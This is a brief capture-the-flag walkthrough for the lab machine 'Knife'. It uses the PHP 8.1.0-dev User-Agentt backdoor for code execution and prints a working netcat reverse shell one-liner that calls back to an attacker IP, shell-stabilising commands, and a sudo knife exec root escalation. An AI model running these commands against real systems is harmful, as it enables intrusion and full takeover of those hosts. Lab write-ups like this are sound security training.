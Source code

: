 MACHINE NAME: Knife
MACHINE IP: 10.10.10.242

Nmap.

Open ports of interest: 22 and 80 running SSH and HTTP respectively.
From Wappalyzer, the site runs on PHP 8.1.0 as well.

PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution



An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.


Set up a netcat listener - Busybox version used for this case.

rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.103 4242 >/tmp/f

Stabilize the shell.

export TERM=xterm

python3 -c 'import pty; pty.spawn("/bin/sh")'

PrivEsc.

sudo knife exec --exec "exec '/bin/sh -i' "

